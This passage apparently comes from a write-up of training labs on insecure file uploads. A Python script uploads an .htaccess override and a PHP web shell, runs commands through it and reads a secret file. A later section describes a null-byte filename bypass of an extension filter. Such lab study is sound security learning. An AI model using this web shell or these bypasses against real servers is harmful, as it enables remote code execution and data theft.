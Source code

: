 ```python
rce_file = {
	'avatar':('evil.evil', '<?php system($_REQUEST["cmd"]); ?>', "application/x-php")
}

htaccess_file = {
	'avatar':('.htaccess', 'AddType application/x-httpd-php .evil', "text/plain")
}

form_data = {
	'user':'wiener',
	'csrf':upload_csrf_token
}

r = s.post(url + '/my-account/avatar', files=htaccess_file, data=form_data)
if 'has been uploaded' not in r.text:
	print(r.text)
	print("[-] .htaccess Upload failed")
	sys.exit(1)
print("[+] .htaccess Upload worked")

r = s.post(url + '/my-account/avatar', files=rce_file, data=form_data)
if 'has been uploaded' not in r.text:
	print(r.text)
	print("[-] RCE File Upload failed")
	sys.exit(1)
print("[+] RCE File Upload worked")

r = s.get(url + '/files/avatars/evil.evil?cmd=id')
if '12002(carlos)' not in r.text:
	print(r.text)
	print("[-] RCE failed")
	sys.exit(1)
print("[+] RCE worked")

params = {
	'cmd':'cat /home/carlos/secret'
}
r = s.get(url + '/files/avatars/evil.evil', params=params)
print(r.text)
```

## Lab 5: Obfuscated Extension

When trying to upload a file, this is the error I get:

```
Sorry, only JPG & PNG files are allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">� Back to My Account</a></p>
```

Changing it to `evil.jpg.php` doesn't work. However, uploading `evil.php%00.jpg` works, and it is uploaded as `evil.php`.
